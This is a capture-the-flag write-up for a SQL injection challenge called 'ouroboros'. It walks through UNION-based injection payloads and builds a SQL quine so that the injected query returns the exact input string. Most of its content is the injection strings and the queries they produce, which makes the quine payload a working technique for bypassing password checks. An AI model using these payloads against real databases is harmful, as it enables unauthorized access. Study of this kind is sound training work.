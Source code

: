 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

A Quine is a program that outputs its own souce code without having access to it.
An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34),Char(39)),Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34), Char(39)), Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34), Char(39)), Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;
## Modified Quine

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char( 39)),char(36), 
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),
char(39)
)
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23'
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace('$',char(34),char(39)),char(36),'$')%23',
char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
-- - %23 -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
' UNION SELECT 
\'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char(39)),char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
